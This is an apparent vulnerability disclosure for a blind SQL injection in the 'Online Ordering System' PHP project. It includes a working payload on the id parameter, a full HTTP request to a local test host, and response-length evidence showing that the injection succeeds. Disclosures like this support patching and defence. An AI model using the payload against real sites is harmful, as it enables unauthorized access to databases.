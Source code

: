 # Online Ordering System By janobe has SQL injection vulnerability

Author： Lingtao Wang

vendor: https://www.sourcecodester.com/php/12978/online-ordering-system-phpmysqli.html

Vulnerability file: /ordering/index.php?q=products&id=

Vulnerability location: /ordering/index.php?q=products&id= //id is Injection point

[+]Payload: /ordering/index.php?q=products&id=2%27%20and%20length(database())%20=12--+ //id is Injection point

Current database name: multistoredb,length is 12

```sql
GET /ordering/index.php?q=products&id=2%27%20and%20length(database())%20=12--+ HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=0m2td1md252hlnr3nsbmc5ss99
Connection: close
```

When length (database ()) = 11, Content-Length: 17564
![image](https://user-images.githubusercontent.com/54017627/168940458-5e11db7e-7a83-4fd9-a205-4c3ded901d1c.png)

![image](https://user-images.githubusercontent.com/54017627/168940395-a8d6777e-8543-4e5d-a333-907517ce3c1e.png)

When length (database ()) = 12, Content-Length: 24330
![image](https://user-images.githubusercontent.com/54017627/168940427-fd0bf7b1-4ddd-44f1-8d75-16d69b55478c.png)

![image](https://user-images.githubusercontent.com/54017627/168940372-79814df9-4d24-443e-a107-0a4c2482f2fa.png)

